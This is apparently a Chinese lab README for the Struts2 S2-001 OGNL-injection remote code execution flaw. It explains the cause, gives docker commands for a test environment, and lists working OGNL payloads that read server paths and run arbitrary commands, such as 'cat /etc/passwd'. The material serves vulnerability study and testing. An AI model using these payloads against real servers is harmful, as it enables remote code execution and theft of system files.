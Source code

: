 # S2-001 远程代码执行漏洞

## 原理

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

> 该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

## 环境

执行以下命令启动s2-001测试环境

```
docker compose build
docker compose up -d
```

## POC && EXP

获取tomcat执行路径：

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](1.jpeg)
